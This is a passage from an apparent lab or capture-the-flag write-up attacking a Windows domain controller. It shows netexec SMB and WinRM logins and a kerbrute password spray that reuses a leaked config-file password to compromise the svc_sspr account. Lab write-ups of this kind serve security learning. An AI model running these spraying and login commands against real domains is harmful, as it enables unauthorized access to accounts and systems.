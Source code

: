 Inside the config file, there are some hashes and a plaintext password.

When we try the credentials, we don't find anything.

```bash
➜  Phantom netexec smb 10.10.98.25 -u lstanley -p '<REDACTED>' 
SMB         10.10.98.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.98.25     445    DC               [-] phantom.vl\lstanley:<REDACTED>STATUS_LOGON_FAILURE 

```

Let's try a spray with this password as well.

```zsh
➜  Phantom kerbrute passwordspray -d phantom.vl user.txt <REDACTED>--dc 10.10.86.166

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 04/13/25 - Ronnie Flathers @ropnop

2025/04/13 18:11:08 >  Using KDC(s):
2025/04/13 18:11:08 >  	10.10.86.166:88

2025/04/13 18:11:08 >  [!] Guest@phantom.vl:<REDACTED> [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (14) KDC_ERR_ETYPE_NOSUPP KDC has no support for encryption type
2025/04/13 18:11:08 >  [+] VALID LOGIN:	 svc_sspr@phantom.vl:<REDACTED>
2025/04/13 18:11:08 >  Done! Tested 25 logins (1 successes) in 0.508 seconds
```

We compromised the _svc\_sspr_ user, and this led us to find our first flag.

```zsh
➜  Phantom netexec winrm 10.10.86.166 -u svc_sspr -p '<REDACTED>'                                                          
WINRM       10.10.86.166    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
WINRM       10.10.86.166    5985   DC               [+] phantom.vl\svc_sspr:<REDACTED>(Pwn3d!)
WINRM       10.10.86.166    5985   DC               [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
WINRM       10.10.86.166    5985   DC               [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
```

Now, let's run BloodHound with the _svc\_sspr_ user and examine the map.

<figure><img src="../assets/img/Bloodhound_1.png" alt=""><figcaption></figcaption></figure>
